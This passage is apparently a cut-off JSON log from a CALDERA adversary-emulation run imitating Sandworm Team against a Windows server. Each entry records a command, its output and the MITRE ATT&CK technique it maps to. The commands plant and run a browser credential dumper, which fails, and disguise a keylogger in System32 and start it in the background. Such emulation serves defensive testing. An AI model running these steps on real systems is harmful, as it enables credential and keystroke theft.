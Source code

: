 ```
created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"73decaa1-5ba3-4739-812d-633929a158fd","ability_name":"Sandworm Windows Discovery - List RDP Connections","ability_description":"Sandworm Team had gathered user, IP address, and server data related to RDP sessions on a compromised host.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"System Network Connections Discovery","technique_id":"T1049"},"agent_reported_time":"2024-11-12T08:09:32Z"},{"command":"move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe","plaintext_command":"move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe","delegated_timestamp":"2024-11-12T08:09:37Z","collected_timestamp":"2024-11-12T08:10:34Z","finished_timestamp":"2024-11-12T08:10:34Z","status":1,"platform":"windows","executor":"cmd","pid":1200,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"9a438a2a-c95b-4fd2-a29f-8b1250fc3adc","ability_name":"Sandworm Download Web Credential Dumper","ability_description":"Sandworm downloads web credential dumper oradump.exe to disk.\noradump.exe is a variant of the open source tool, LaZagne.\nIt has been refactored, some functionality removed, and compiled into a portable executable via PyInstaller.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"command-and-control","technique_name":"Ingress Tool Transfer","technique_id":"T1105"},"output":{"stdout":"","stderr":"The system cannot find the file specified.","exit_code":"1"},"agent_reported_time":"2024-11-12T08:10:33Z"},{"command":"C:\\Windows\\System32\\oradump.exe 2>&1","plaintext_command":"C:\\Windows\\System32\\oradump.exe 2>&1","delegated_timestamp":"2024-11-12T08:10:37Z","collected_timestamp":"2024-11-12T08:11:14Z","finished_timestamp":"2024-11-12T08:11:14Z","status":1,"platform":"windows","executor":"cmd","pid":4904,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"1da1b17e-66fd-4f39-bf10-203570a62624","ability_name":"Sandworm Execute Web Credential Dumper","ability_description":"Sandworm executes web credential dumper oradump.exe.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Credentials from Password Stores: Credentials from Web Browsers","technique_id":"T1555.003"},"output":{"stdout":"'C:\\Windows\\System32\\oradump.exe' is not recognized as an internal or external command,operable program or batch file.","stderr":"","exit_code":"1"},"agent_reported_time":"2024-11-12T08:11:14Z"},{"command":"move .\\keylogger.exe C:\\Windows\\System32\\mslog.exe","plaintext_command":"move .\\keylogger.exe C:\\Windows\\System32\\mslog.exe","delegated_timestamp":"2024-11-12T08:11:17Z","collected_timestamp":"2024-11-12T08:12:14Z","finished_timestamp":"2024-11-12T08:12:28Z","status":0,"platform":"windows","executor":"cmd","pid":480,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"ccbb3c07-dc04-46f5-83d3-54fe71deab3c","ability_name":"Sandworm Download Keylogger","ability_description":"Sandworm downloads keylogger to disk.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"command-and-control","technique_name":"Ingress Tool Transfer","technique_id":"T1105"},"output":{"stdout":"        1 file(s) moved.","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:12:28Z"},{"command":"exec-background cmd.exe /k \"C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt\"","plaintext_command":"exec-background cmd.exe /k \"C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt\"","delegated_timestamp":"2024-11-12T08:12:32Z","collected_timestamp":"2024-11-12T08:12:56Z","finished_timestamp":"2024-11-12T08:12:56Z","status":0,"platform":"windows","executor":"proc","pid":1096,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"1d317399-d786-4c58-889f-01cf496ba5d2","ability_name":"Sandworm Log Keystrokes","ability_description":"Sandworm runs the keylogger in the background to log keystrokes to mslog.txt.\nSandworm Team has used a keylogger to capture keystrokes by using the SetWindowsHookEx function.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credent
```